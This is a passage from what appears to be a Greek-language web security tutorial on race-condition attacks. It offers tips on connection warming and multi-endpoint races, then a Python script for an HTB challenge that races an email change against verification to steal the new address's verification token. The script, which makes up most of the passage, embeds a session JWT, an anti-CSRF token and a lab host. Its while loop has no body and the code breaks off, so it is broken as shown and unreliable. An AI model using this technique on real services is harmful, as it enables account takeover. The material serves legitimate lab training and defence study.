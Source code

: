 * Για **connection warming**, θα μπορούσατε να **προσθέσετε** στην **αρχή** της **ομάδας** κάποια **αιτήματα** σε κάποιο μη στατικό μέρος του web server.
* Για **delaying** τη διαδικασία **μεταξύ** της επεξεργασίας **ενός αιτήματος και ενός άλλου** σε 2 υποστάσεις βημάτων, θα μπορούσατε να **προσθέσετε επιπλέον αιτήματα μεταξύ** και των δύο αιτημάτων.
* Για ένα **multi-endpoint** RC θα μπορούσατε να αρχίσετε να στέλνετε το **αίτημα** που **πηγαίνει στην κρυφή κατάσταση** και στη συνέχεια **50 αιτήματα** αμέσως μετά που **εκμεταλλεύονται την κρυφή κατάσταση**.

<figure><img src="../.gitbook/assets/image (58).png" alt=""><figcaption></figcaption></figure>

* **Automated python script**: Ο στόχος αυτού του script είναι να αλλάξει το email ενός χρήστη ενώ συνεχώς το επαληθεύει μέχρι να φτάσει το verification token του νέου email στο τελευταίο email (αυτό συμβαίνει επειδή στον κώδικα παρατηρήθηκε μια RC όπου ήταν δυνατό να τροποποιηθεί ένα email αλλά να σταλεί η επαλήθευση στο παλιό γιατί η μεταβλητή που υποδεικνύει το email ήταν ήδη γεμάτη με το πρώτο).\
Όταν η λέξη "objetivo" βρεθεί στα ληφθέντα emails, γνωρίζουμε ότι λάβαμε το verification token του αλλάγμένου email και τερματίζουμε την επίθεση.
```python
# https://portswigger.net/web-security/race-conditions/lab-race-conditions-limit-overrun
# Script from victor to solve a HTB challenge
from h2spacex import H2OnTlsConnection
from time import sleep
from h2spacex import h2_frames
import requests

cookie="session=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MiwiZXhwIjoxNzEwMzA0MDY1LCJhbnRpQ1NSRlRva2VuIjoiNDJhMDg4NzItNjEwYS00OTY1LTk1NTMtMjJkN2IzYWExODI3In0.I-N93zbVOGZXV_FQQ8hqDMUrGr05G-6IIZkyPwSiiDg"

# change these headers

headersObjetivo= """accept: */*
content-type: application/x-www-form-urlencoded
Cookie: """+cookie+"""
Content-Length: 112
"""

bodyObjetivo = 'email=objetivo%40apexsurvive.htb&username=estes&fullName=test&antiCSRFToken=42a08872-610a-4965-9553-22d7b3aa1827'

headersVerification= """Content-Length: 1
Cookie: """+cookie+"""
"""
CSRF="42a08872-610a-4965-9553-22d7b3aa1827"

host = "94.237.56.46"
puerto =39697


url = "https://"+host+":"+str(puerto)+"/email/"

response = requests.get(url, verify=False)


while "objetivo" not in response.text:

urlDeleteMails = "https://"+host+":"+str(puerto)+"/email/deleteall/"

responseDeleteMails = requests.get(urlDeleteMails, verify=False)
```
